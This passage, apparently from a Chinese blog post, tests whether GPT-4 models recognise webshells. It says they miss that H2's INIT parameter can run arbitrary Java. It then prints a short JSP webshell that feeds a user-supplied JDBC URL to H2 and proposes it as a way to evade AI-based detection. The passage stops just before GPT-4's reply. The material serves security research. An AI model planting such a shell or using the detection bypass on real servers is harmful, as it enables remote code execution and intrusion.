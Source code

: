         ![](/img/aiWebshell/a95f6cae-c6a4-4d7f-b3c0-11da97978c72.png) ![](https://prod-files-secure.s3.us-west-2.amazonaws.com/a116b209-23ed-47e3-b176-d57fece98279/cf0a0dfc-5aee-47db-9863-bccae276efc8/Untitled.png)

     可以看到随着模型的进步，程序给出的信息会更加的全面和详细。但就关键指标来说，虽然GPT-4的两个模型列出了INIT参数，但它们均只认为该参数可以执行SQL脚本，并未给出可以执行任意Java代码的提示。因此如果一个环境中存在H2 JDBC依赖，就可以尝试使用相关的WebShell进行绕过，样本如下：

     ```python
     <%@ page import="java.sql.DriverManager" %>
     <%
         Class.forName("org.h2.Driver");
         DriverManager.getConnection(request.getParameter("url"));
     %>
     ```

     GPT-4给出的回答如下：
